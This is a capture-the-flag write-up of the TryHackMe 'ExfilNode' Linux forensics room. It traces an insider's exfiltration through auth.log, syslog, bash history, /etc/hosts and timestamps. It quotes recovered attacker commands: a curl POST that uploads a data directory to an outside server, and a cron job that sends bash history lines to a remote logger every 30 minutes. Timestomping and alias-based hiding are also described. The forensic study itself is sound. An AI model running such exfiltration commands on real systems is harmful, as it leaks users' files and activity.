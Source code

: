 # [TryHackMe - ExfilNode](https://tryhackme.com/room/exfilnode)
![a3c19e727c5a8de1c7ddf9bb62c1e878.png](../../_resources/a3c19e727c5a8de1c7ddf9bb62c1e878.png)
***
The analysis of Liam's company-provided Windows workstation in the DiskFiltration room revealed major evidence of his involvement in the TECH THM's data exfiltration. However, he could argue that he was framed as he did not own the workstation. So, to uncover the whole truth and gather all the possible undeniable evidence, the investigators turned their attention to Liam's personal workstation (Linux machine), which was suspected to have played a key role in handling the exfiltrated data.

As this was Liam's personal workstation, he had full control over covering his tracks more effectively. But was he careful enough? It seems like the investigators not only revealed more about the external entity Liam worked with but also exposed a betrayal: Liam was double-crossed.

>When did Liam last logged into the system? (Format: YYYY-MM-DD HH:MM:SS)

![c9852dd5aacb1629068349e3e9c751bf.png](../../_resources/c9852dd5aacb1629068349e3e9c751bf.png)

After started the machine, we can access `/mnt/liam_disk` to start our investigation but do not forget to change user to `root` to make investigation easier when dealing with file owned by `root`

![949ef1eec4976b2eb73053f2f2060677.png](../../_resources/949ef1eec4976b2eb73053f2f2060677.png)

First artefact we could utilize to determine the login time is `wtmp` and normally, we could use `last` command without any argument in the live environment to display the content of `wtmp` but in this case, we have to specify the file to read with `-f` then we can see that the latest logged in time with "logon screen" happened at Feb 28 15:59 (UTC time) 

![022ab185b744b541a368d0e93e3975e7.png](../../_resources/022ab185b744b541a368d0e93e3975e7.png)

To get the accurate timestamp, we will utilize the `auth.log` with `grep "session opened" auth.log -a | grep gdm` command to display all session opened event from GNOME Display Manager (gdm) which is the normal way when logged in to the system via GUI and for some reasons, this room accepted the timestamp display on the log directly without converting to UTC so we can copy timestamp from the last line and change "T" to space to answer this. 

```
2025-02-28 10:59:07
```

>What was the timezone of Liam’s device?

![15b0ec0efaedb4f34f4f78493295d4d1.png](../../_resources/15b0ec0efaedb4f34f4f78493295d4d1.png)

We can get the timezone of Unix-like system from the `etc/timezone` file as shown in the image above.

```
America/Toronto
```

>What is the serial number of the USB that was inserted by Liam?

![c11d4d9a85299487fdf7e5270b18c8ca.png](../../_resources/c11d4d9a85299487fdf7e5270b18c8ca.png)

We can cheese our way out from the `/mnt/liam_disk/var/log` with the command `grep -i usb ./*` to display everything that has "usb" string in it which we will find the Product name, Serial number, Manufacturer, connected and disconnected time from the `syslog` as shown in the above image.

```
2651931097993496666
```

>When was the USB connected to the system? (Format: YYYY-MM-DD HH:MM:SS)
```
2025-02-28 10:59:25
```

>What command was executed when Liam ran 'transferfiles'?

![ea468ef357bc14817e219412164ac9df.png](../../_resources/ea468ef357bc14817e219412164ac9df.png)

There is a `transferfiles` command was executed on the `.bash_history` which mean the user executed this command but I could not find this binary from any of the path so I used `grep` to find for this string which I found out from the result that Liam added alias to `.bashrc` which will execute copy command to copy all files from USB drive to `Data` directory located on the Documents folder of liam's user. this is a very tricky way to hide the actual command execution from bash history.

```
cp -r \"/media/liam/46E8E28DE8E27A97/Critical Data TECH THM\" /home/liam/Documents/Data
```

>What command did Liam execute to transfer the exfiltrated files to an external server?

![100d0fdc0a67060ae58a9648a5bd158a.png](../../_resources/100d0fdc0a67060ae58a9648a5bd158a.png)

Its time to look at the bash history again which we can see that after listing usb, the user then copied all files from usb to `Data` directory then use `set -o history` to make sure that command execution from shell will be logged in the bash history which Liam then proceeded to use curl to exfiltrate files from `Data` directory to `http://tehc-thm.thm/upload` once all files were successfully copied to `Data` directory.

```
curl -X POST -d @/home/liam/Documents/Data http://tehc-thm.thm/upload
```

>What is the IP address of the domain to which Liam transferred the files to?

![ffb854779256168804d0cd7f49d28c03.png](../../_resources/ffb854779256168804d0cd7f49d28c03.png)

We can look `/etc/hosts` file that matches an FQDN with the server IP of specific domain and we can see that the previously found domain was mapped to 5.45.102.93 on Liam's system.

```
5.45.102.93
```

>Which directory was the user in when they created the file 'mth'?

![e0f87b33f03ddec9a78d0f38b1289944.png](../../_resources/e0f87b33f03ddec9a78d0f38b1289944.png)

We are back to `auth.log` that stores the command history of `sudo` which we found from the bash history that user used `sudo` with `nano` to created `mth` file so we can use this log to find the PWD or working directory when this command was executed and we can see that the command was executed from Liam's home directory. 

```
/home/liam
```

>Remember Henry, the external entity helping Liam during the exfiltration? What was the amount in USD that Henry had to give Liam for this exfiltration task?

![f3e9760c9ba0a3df29c804695d85799d.png](../../_resources/f3e9760c9ba0a3df29c804695d85799d.png)

Its time to read the content of `mth` file which we can see that Henry offered Liam $10000 for this work.

```
10000
```

>When was the USB disconnected by Liam? (Format: YYYY-MM-DD HH:MM:SS)

![ef2daec820ef9e1637a4ca19bf30ce92.png](../../_resources/ef2daec820ef9e1637a4ca19bf30ce92.png)

Back to `syslog`, we can see the USB disconnected event happened at 11:44:00 (-05.00 UTC) indicates by the string "USB disconnect, device number 2"

```
2025-02-28 11:44:00
```

>There is a .hidden/ folder that Liam listed the contents of in his commands. What is the full path of this directory?

![b0ff975b678dc9e4eb351afcd309df68.png](../../_resources/b0ff975b678dc9e4eb351afcd309df68.png)

We can check out the home directory of liam user which we can see that even though there is the `.hidden` directory on this directory but there is nothing inside we my next target would be Public directory since it was updated on Feb 28 as well.

![6750bc2a1acb293cdf3877ded3802264.png](../../_resources/6750bc2a1acb293cdf3877ded3802264.png)

And then we can see that there is another `.hidden` folder on this directory so this is the one we are looking for.

```
/home/liam/Public
```

>Which files are likely timstomped in this .hidden/ directory (answer in alphabetical order, ascending, separated by a comma. e.g example1.txt,example2.txt)

![fb2b01fd29473ab7982f9a681ee7d292.png](../../_resources/fb2b01fd29473ab7982f9a681ee7d292.png)

Lets check out `.hidden` directory, and then we can see that there are 8 empty text files on this directory and there are 2 files that does not have the same updated timestamp as the rest. 

![07c515aa0e57c5f77e3279405fa9efb7.png](../../_resources/07c515aa0e57c5f77e3279405fa9efb7.png)

We can use `stat` command to find out the MACB timestamp of both files which we can see that the actual file creation (Birth) of both file aligns with the timeline of this incident and we also confirmed the timestomping technique as well. 

```
file3.txt,file7.txt
```

>Liam thought the work was done, but the external entity had other plans. Which IP address was connected via SSH to Liam's machine a few hours after the exfiltration? 

![f957310e2867be61483defaf23da3ac3.png](../../_resources/f957310e2867be61483defaf23da3ac3.png)

We can find out the logon timestamp via SSH from `auth.log` file with the simple command such as `grep -i -a Accepted auth.log` which reveals the successful authentication with the password on SSH, and we can see that we only have 1 record and it was connected from the external IP as well.

```
94.102.51.15
```

>Which cronjob did the external entity set up inside Liam’s machine?

![9493aaf7f8c012ea8b7942d7f5faca83.png](../../_resources/9493aaf7f8c012ea8b7942d7f5faca83.png)

I didn't see anything from `/etc/crontab` so I checked out the `/var/spool/cron/crontab` which I found cronjob of liam user exfiltrate last 5 commands from bash history every 30 minute to the website hosting on 192.168.1.23

```
*/30 * * * * curl -s -X POST -d "$(whoami):$(tail -n 5 ~/.bash_history)" http://192.168.1.23/logger.php
```

![dd55176cb3873b987ce4770523790032.png](../../_resources/dd55176cb3873b987ce4770523790032.png)

And now we are done!
***